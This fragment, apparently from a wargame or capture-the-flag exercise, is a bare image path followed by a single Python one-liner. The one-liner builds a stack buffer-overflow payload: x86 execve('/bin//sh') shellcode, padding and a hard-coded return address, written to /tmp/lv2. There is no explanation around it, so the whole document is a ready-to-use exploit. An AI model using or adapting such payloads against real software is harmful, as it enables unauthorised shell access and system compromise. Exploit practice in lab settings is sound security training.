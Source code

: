 python -c 'import struct; print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+ "A" \* (80 - 24) + struct.pack("<I", 0x0804a008)' > /tmp/lv2
